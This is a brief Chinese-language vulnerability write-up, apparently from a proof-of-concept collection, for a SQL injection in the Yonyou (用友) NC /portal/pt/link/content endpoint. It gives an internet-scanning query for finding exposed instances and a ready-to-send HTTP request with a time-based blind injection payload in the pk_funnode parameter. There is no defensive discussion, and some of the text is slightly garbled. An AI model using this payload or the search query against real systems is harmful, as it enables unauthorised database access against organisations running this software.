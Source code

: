 0x01 漏洞名称

用友NC/link/content-SQL注入

0x02 漏洞介绍

用友NC/link/content接口存在SQL注入，攻击者可以通过此接口进行执行sql命令。

0x03 影响范围

浪用友NC

0x04 网络空间测绘查询

product="用友-UFIDA-NC" && icon_hash="1085941792"

0x05 漏洞复现

```yaml
GET /portal/pt/link/content?pageId=login&pk_funnode=1'waitfor+delay+'0:0:6'-- HTTP/1.1Host: 11.11.11.11User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1Connection: closeAccept-Encoding: gzip, deflate
```

